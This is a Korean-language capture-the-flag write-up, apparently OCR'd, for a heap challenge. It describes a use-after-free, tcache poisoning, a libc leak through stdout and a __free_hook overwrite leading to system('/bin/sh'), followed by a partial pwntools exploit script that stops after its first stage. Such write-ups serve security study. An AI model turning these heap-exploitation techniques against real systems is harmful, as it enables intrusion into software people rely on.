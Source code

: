 ```c
  {
    puts("invalid index");
    result = 0xFFFFFFFFLL;
  }
  return result;
}
```

 note 버퍼를 free시킨 후 sub_4014F8(edit)를 통해 freed chunk의 fd, bk를 조작할 수 있으며 bin 리스트를 조작할 수 있습니다.

### 1.3.3 Leaking address

 앞서 찾아진 UAF를 이용하여 Tcache의 bin 구조를 공격할 수 있습니다. Note의 note 버퍼를 할당하고 해제를 하게 되면 해당 청크는 Tcache bin에 들어가게 됩니다. 이때 edit 기능을 이용해 PIE 걸려있지 않는 바이너리 주소를 덮어씀으로써 .data나 .bss영역에 데이터를 할당할 수 있습니다.

 Tcache Poisoning을 이용하여 .bss 영역에 존재하는 stdout pointer 오프셋으로 덮으면 Tcache bin엔 다음과 같은 형태의 리스트가 만들어집니다.

```c
Tcache Bin

... -> 0x404080(.bss) -> 0x7ffff7fa86a0(stdout) -> 0xfbad2084
```

 bin의 카운터가 충분한 경우, 최종적으로 stdout 오프셋에 메모리를 할당할 수 있으며 `IO_2_1_stdout*→*_IO_write_base`를 덮어 stdout을 이용하여 libc address를 출력할 수 있습니다.

### 1.3.4 Exploit

 Tcache bin을 다시 poisoning 하여 __free_hook을 리스트에 넣은 후 해당 주소에 note를 할당하여 system 함수 주소를 덮어 쓰고, 또다른 note에 "/bin/sh"를 넣은채로 할당하여 free를 호출하게 되면 system("/bin/sh")이 최종적으로 호출됩니다.

 

 아래는 코드는 solution script입니다.

```python
from pwn import *

context.arch = 'amd64'
p = remote('ctf.epist.kr', 30000)

libc = ELF('./libc.so.6')

def create(idx, size, note):
    p.sendlineafter('> ', str(1))
    p.sendlineafter(': ', str(idx))
    p.sendlineafter(': ', str(size))
    p.sendafter(': ', note)

def delete(idx):
    p.sendlineafter('> ', str(2))
    p.sendlineafter(': ', str(idx))

def edit(idx, note):
    p.sendlineafter('> ', str(3))
    p.sendlineafter(': ', str(idx))
    p.sendafter(': ', note)

# stage1: tcache poisoning to free stdout 
create(0, 0x200, b'aaaa')
create(1, 0x200, b'aaaa')
create(2, 0x200, b'aaaa')
delete(2)
delete(1)
delete(0)
edit(0, p64(0x404080))

# stage2: leak libc base from stdout
```
